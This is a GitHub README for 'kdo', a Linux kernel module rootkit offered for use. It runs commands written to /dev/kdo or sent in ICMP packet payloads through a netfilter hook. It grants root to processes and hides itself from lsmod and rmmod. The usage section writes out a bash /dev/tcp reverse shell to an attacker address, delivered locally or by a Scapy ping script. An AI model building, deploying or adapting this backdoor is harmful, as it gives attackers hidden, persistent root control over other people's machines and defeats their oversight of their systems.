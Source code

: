 kdo
===
A "kernel sudo". This LKM creates a character device at `/dev/kdo` to which commands can be written
and executed via `call_usermodehelper`. It also registers an ICMP hook using netfilter to receive
commands via ICMP payloads. Other convenient builtins are implemented as well. Default values can be
modified in `src/include/config.h`.

A Python script is provided to craft and send the ICMP packet (`src/kdo-ping.py`) using
[Scapy](https://scapy.net/).


Features
--------
- `kdo-exec [argv]` \
Execute a command via call_usermodehelper.

- `kdo-root` \
Grant root privileges to the current process (set process ids to 0).

- `kdo-hide` \
Hide module from `lsmod` and make it impossible to unload with `rmmod`.

- `kdo-show` \
Make module visible and removable after running `kdo-hide`.


Installation
------------
**1.** Clone the repository
```bash
git clone https://github.com/hiatus/kdo
```

**2.** Build the module
```bash
cd kdo
make
```

**3.** Insert the module 
```
sudo insmod kdo.ko
```

Configuration
-------------
Default values can be modified in `src/include/config.h`, such as the name of the created device
(`kdo` by default), the magic strings for the module's functionalities and the shell to execute
commands with. Logging can be enabled by defining the `DEBUG` symbol (undefined by default).


Usage
-----
Simply write to `/dev/kdo` or craft an ICMP request whose payload is a valid `kdo` command string.

Note that because the command execution backend inserts it's arguments as the last parameter for
`/bin/bash -c` (can be changed, see **Configuration**), shell functionalities such as redirection
are supported. For example, to spawn a reverse shell to `192.168.0.2:1337`, run in the target
machine:

```bash
echo 'kdo-exec bash -i >& /dev/tcp/192.168.0.2/1337 2>&1 0>&1' > /dev/kdo
```

To do the same thing remotely, send a ping from the attacker side with the same string as payload:

```bash
sudo python src/kdo-ping.py -t 192.168.0.3 'kdo-exec bash -i >& /dev/tcp/192.168.0.2/1337 2>&1 0>&1'
```
